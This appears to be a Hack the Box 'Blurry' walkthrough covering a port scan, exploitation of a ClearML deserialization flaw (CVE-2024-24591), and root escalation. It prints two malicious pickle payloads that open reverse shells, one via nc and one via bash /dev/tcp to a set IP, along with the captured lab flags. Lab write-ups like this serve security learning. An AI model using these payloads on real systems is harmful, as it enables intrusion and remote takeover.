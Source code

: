 ```yaml
---
title: Blurry - Hack the Box
date: 2024-10-13 12:37:45 -0400
categories: [Hack the Box]
tags: [Walkthrough]
image: /assets/Blurry.png
---
```

### Scan
```
┌──(root㉿kali)-[/home/li0t]
└─# nmap -sVC -p- --open 10.10.11.19
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-09 08:57 EDT
Nmap scan report for 10.10.11.19
Host is up (0.12s latency).
Not shown: 64850 closed tcp ports (reset), 683 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 3e:21:d5:dc:2e:61:eb:8f:a6:3b:24:2a:b7:1c:05:d3 (RSA)
|   256 39:11:42:3f:0c:25:00:08:d7:2f:1b:51:e0:43:9d:85 (ECDSA)
|_  256 b0:6f:a0:0a:9e:df:b1:7a:49:78:86:b2:35:40:ec:95 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-title: Did not follow redirect to http://app.blurry.htb/
|_http-server-header: nginx/1.18.0
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 53.26 seconds

```
### Enum
We get a redirect, so lets update our `/etc/hosts`
We brute subdomains and web directories, yielding this:![Image](/assets/Screenshot 2024-10-09 at 1.09.59 PM.png)
Also this:![Image](/assets/Screenshot 2024-10-09 at 1.33.09 PM.png)
Add everything to `/etc/hosts`
Visiting the link, we get a portal. Creating a user gives us access. ClearML is AI software. Rooting around tells us 1.13.1
CVE-2024-24591 ![Image](/assets/Screenshot 2024-10-09 at 1.15.38 PM.png)
Great explanation here: https://hiddenlayer.com/research/not-so-clear-how-mlops-solutions-can-muddy-the-waters-of-your-supply-chain/
We'll need to install clearml with `pip install clearml`
Then, for configuration purposes, create new credentials on the site via settings, and paste into the terminal when prompted.![Image](/assets/Screenshot 2024-10-09 at 1.34.13 PM.png)
Now, we can move on to the python script in order to plant a malicious files on the user via the poisoned dataset with dir traversal
Code meandering we stumble on 'Black Swan', and we can see that it is a script tasked with processing JSON artifacts. We can abuse this functionality by uploading our pickle file and passing it through this function for arbitrary code execution.
```
import pickle  
import os  
from clearml import Task, Logger  
  
  
task = Task.init(project_name='Black Swan', task_name='REV shell', tags=["review"])  
  
  
  
class MaliciousCode:  
    def __reduce__(self):  
  
        cmd = (  
            "rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc attacker-ip attacker-port > /tmp/f"  
        )  
        return (os.system, (cmd,))  
  
  
malicious_object = MaliciousCode()  
pickle_filename = 'malicious_pickle.pkl'  
with open(pickle_filename, 'wb') as f:  
    pickle.dump(malicious_object, f)  
  
print("Malicious pickle file with reverse shell created.")  
  
  
task.upload_artifact(name='malicious_pickle', artifact_object=malicious_object, retries=2, wait_on_upload=True, extension_name=".pkl")  
  
print("Malicious pickle file uploaded as artifact.")
```
Run it ![Image](/assets/Screenshot 2024-10-09 at 1.54.22 PM.png)
Shell as jippity! Stabilize shell
sudo -l ![Image](/assets/Screenshot 2024-10-09 at 1.56.37 PM.png)
we'll play with that in a second. First, grab user flag, and notice ssh private key!
user:3f27bf4798adad24993c80ea10ec74d9
create file and chmod 400 to ssh back in
`vim rsa.key` paste. Make sure to include begin and end part
`chmod 400 rsa.key`
`ssh -i rsa.key jippity@10.10.11.19`
![Image](/assets/Screenshot 2024-10-09 at 2.03.39 PM.png)
### Priv esc
remember the nopasswd? here we go. 
Lets create a py script that drops a malicious pth file so taht we can eecute
`vim evilpath.py` and use
```
import torch
import os

class Payload:
    def __reduce__(self):
        return (os.system, ("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.11/9001 0>&1'",))

evil = Payload()
torch.save(evil, 'evil.pth')
```

then to run, `python3 evilpath.py` followed by `cp evil.pth /models && sudo /usr/bin/evaluate_model /models/evil.pth`. It should hang

Your listener set at 9001 should catch the root shell!

Root:45ab0078950cb8dbd2d3ea188f62f389

GET INTO THE WEEDS WRITING THIS MF. alal of em for that matter
